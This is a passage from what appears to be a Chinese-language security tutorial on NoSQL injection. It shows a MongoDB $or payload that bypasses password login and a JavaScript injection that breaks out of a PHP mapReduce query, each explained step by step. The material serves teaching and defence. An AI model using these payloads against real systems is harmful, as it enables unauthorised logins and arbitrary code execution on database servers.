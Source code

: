 ```plain
string query = "{username: 'weiyi', $or:[{}, {'a':'a', password: ''}] }";

# mongo 查询语句
{username: 'weiyi', $or:[{}, {'a':'a', password: ''}] }
```

-   `{}`空查询`nosql`语法判断为`true`
-   这里转换成传统的`SQL`语句

```plain
SELECT * FROM users WHERE username = 'weiyi' AND (TRUE OR ('a'='a' AND PASSWORD = ''))
```

-   最终，我们可以实现只要获取到用户名，就可以绕过密码进行登录

### `NoSQL JAVASCRIPT INJECTION`

​ 这部分主要说的是`nosql`数据库的一个任意`javaScript`执行，众多非关系型数据库引擎是支持`js`代码的执行的，比如`MongoDB`,`CouchDB`等等，为的是实现更为复杂的查询操作，比如`map-reduce`操作

​ 比如如下场景：后端`model`层暴露了一个未经过滤的接口，参数`$param`可控。这里举一个最简单的`map-reduce`,统计一些商品的总价，`$param`为商品价格，后端的`PHP`代码可能是这个样子

```plain
// map
$map = "function() {
    for (var i = 0; i < this.items.length; i++) {
        emit(this.name, this.items[i].$param); } }";
// reduce
$reduce = "function(name, sum) { return Array.sum(sum); }";

$opt = "{ out: 'totals' }";
$db->execute("db.stores.mapReduce($map, $reduce, $opt);");
```

-   可能的注入代码如下

```plain
a);}},function(kv) { return 1; }, { out: 'x' });
db.injection.insert({success:1});
return 1;db.stores.mapReduce(function() { { emit(1,1
```

-   这里我们将代码分为三部分进行分析

```plain
# 闭合前部 js 代码
a);}},function(kv) { return 1; }, { out: 'x' });
# 真正的注入语句
db.injection.insert({success:1});
# 闭合后部 js 代码
return 1;db.stores.mapReduce(function() { { emit(1,1
```

-   带入`js`代码

```plain
// map
$map = "function() {
    for (var i = 0; i < this.items.length; i++) {
        emit(this.name, this.items[i].a);}},
        function(kv) { return 1; }, { out: 'x' });
    db.injection.insert({success:1});
    return 1;db.stores.mapReduce(function() { { emit(1,1); } }";
// reduce
$reduce = "function(name, sum) { return Array.sum(sum); }";

$opt = "{ out: 'totals' }";
$db->execute("db.stores.mapReduce($map, $reduce, $opt);");
```
